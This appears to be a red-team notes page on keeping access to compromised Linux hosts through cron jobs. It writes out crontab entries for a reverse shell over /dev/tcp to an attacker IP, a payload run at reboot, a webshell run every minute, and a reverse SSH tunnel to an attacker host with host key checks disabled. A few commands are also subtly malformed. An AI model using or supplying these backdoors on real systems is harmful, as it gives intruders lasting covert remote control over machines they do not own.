 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - linux
---
```

# Living off the Land
## 01 - Usage

> [!IMPORTANT] Conditions
> Cron job service must be enabled.
> ```
$ systemctl status cron.service
> 
$ sudo systemctl start cron.service
>
> # /etc/init.d/cron start
> ```

Open an editor via crontab.

```
$ sudo crontab -e
```

This will execute every minute to trigger the backdoor.

```
$ sudo echo "* * * * * <commands>" >> /etc/crontab

$ sudo echo "$(echo '* * * * * <commands>')" | crontab -

$ echo "* * * * * <commands>" | crontab -

$ echo "$(echo '* * * * * <commands>')" | crontab -

$ crontab -l
```

## 02 - Callback Shells

Reverse shell backdoor.

```
$ sudo echo "* * * * * /bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" >> /etc/crontab

$ sudo echo "@reboot nohup /home/<username>/.directory/payload" >> /etc/crontab
```

Webshell backdoor

```
$ sudo echo "* * * * * php -f /var/www/html/logout.php" >> /etc/crontab
```

## 03 - Reverse SSH Tunnel

Refer to this [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Persistence/Linux/Remote Login/SSH/Manual/Living off the Land|section]] for more context.

```
$ sudo "* * * * * nohup ssh -i /tmp/keys/id_rsa -NTfCqR [127.0.0.1]:<SOCKS_Proxy> -o \"UserKnownHostsFile=/dev/null StrictHostKeyChecking=no\" <username>@<attacker_IP>" >> /etc/crontab
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Malware Development/Helpers/Persistence/Linux/Autostart Locations]]

- [[Linux Post Exploitation Persistence References]]

### Crontab GURU

- [Crontab GURU](https://crontab.guru)

### Crontab Generator

- [Crontab Generator](https://crontab-generator.org/)

### DMCXBlue

- [DMCXBlue: Cron](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1053-scheduled-tasks-job/cron)